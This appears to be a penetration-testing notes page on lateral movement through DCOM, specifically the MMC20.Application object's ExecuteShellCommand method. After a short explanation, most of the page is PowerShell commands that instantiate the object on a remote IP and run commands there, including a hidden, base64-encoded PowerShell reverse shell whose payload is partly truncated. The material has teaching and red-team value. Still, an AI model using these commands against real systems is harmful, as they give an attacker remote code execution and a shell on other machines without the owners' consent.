 ```yaml
---
description: >-
  Component Object Model (COM) is a system for creating software components that
  interact with each other. DCOM was introduced to interact with multiple
  computers over a network.
---
```


# DCOM



## Distributed Component Object Model (DCOM)

The Distributed Component Object Model (DCOM) was introducted to allow COM objects to interact with other computers over a network. DCOM operates over RPC, port 135. Local Administrator privileges are required call DCOM objects.





## Microsoft Management Console (MMC) Technique

We will go over a technique that utilizes the Microsoft management Console (MMC) for lateral movement.



### How it works

The MMC class allows the action of creation of Application Objects, which exposes the _ExecuteShellCommand_. This method allows us to execute an abitrary shell command.

### Lateral Movement

#### Instantiate MMC:

<pre class="language-powershell"><code class="lang-powershell"><strong>$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
</strong></code></pre>

Pass Arguments to $dcom variable

```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

#### Execute Reverse Shell

```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

{% embed url="https://www.cybereason.com/blog/dcom-lateral-movement-techniques" %}
